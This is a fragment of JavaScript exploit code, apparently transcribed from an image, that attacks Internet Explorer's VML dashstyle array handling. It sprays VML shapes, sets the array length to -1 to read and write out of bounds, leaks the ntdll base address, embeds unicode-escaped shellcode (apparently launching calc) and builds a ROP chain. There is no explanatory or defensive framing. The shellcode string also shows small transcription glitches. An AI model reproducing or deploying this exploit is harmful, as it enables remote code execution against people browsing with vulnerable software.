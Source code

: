 			var rop_addr;
			var ntdllbase;
			var shellcodeaddr;

			function createRects(){
				for(var i=0; i<0x400; i++){
					rect_array[i] = document.createElement("v:shape");
					rect_array[i].id = "rect" + i.toString();
					document.body.appendChild(rect_array[i]);
				}
			}
	 
			function leak(){    
				var vml1  = document.getElementById("vml1");
				
				for (var i = 0; i < 0x400; i++){
					a[i] = document.getElementById("rect" + i.toString())._vgRuntimeStyle;
				}
				
				for (var i = 0; i < 0x400; i++){
					a[i].rotation;
					if (i == 0x300) {
					vml1.dashstyle = "1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44"
					}
				}
				
				var length_orig = vml1.dashstyle.array.length;//44
				vml1.dashstyle.array.length = 0 - 1;   

				for (var i = 0; i < 0x400; i++){  
					marginLeftAddress_orgin = vml1.dashstyle.array.item(0x2E+0x16);   
					a[i].marginLeft = unescape("%uC933%u8B64%u3041%u588B%u8B0C%u1473%u96AD%u8BAD%u1058%u538B%u033C%u8BD3%u7852%uD303%u728B%u0320%u33F3%u41C9%u03AD%u81C3%u4738%u7465%u7550%u81F4%u0478%u6F72%u4163%uEB75%u7881%u6408%u7264%u7565%u8BE2%u2472%uF303%u8B66%u4E0C%u728B%u031C%u49F3%u148B%u038E%u68D3%u6578c%u5768%u6E69%u5445%uFF53%u6AD2%u6800%u6163%u636C%uFC8Bj%uFF57%uC3D0");
					marginLeftAddress_modify = vml1.dashstyle.array.item(0x2E+0x16);
					if (marginLeftAddress_orgin != marginLeftAddress_modify) {
						vml1.dashstyle.array.item(0x2E+0x16) = 0x7ffe0300;
						var leak = a[i].marginLeft;
						vml1.dashstyle.array.item(0x2E+0x16) = marginLeftAddress_orgin;
						var shelladdr = marginLeftAddress_modify;
						ntdllbase = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16) - 0x470B0;
						alert(ntdllbase);
						shellcodeaddr = shelladdr;
						var rop_chain = tab2uni(get_ropchain(shelladdr));
						a[i].marginLeft = rop_chain;
						rop_addr = vml1.dashstyle.array.item(0x2E+0x16);

						vml1.dashstyle.array.item(0x2E+0x16) = marginLeftAddress_orgin;
						vml1.dashstyle.array.length = length_orig;      

						break;
					}
				}
			}
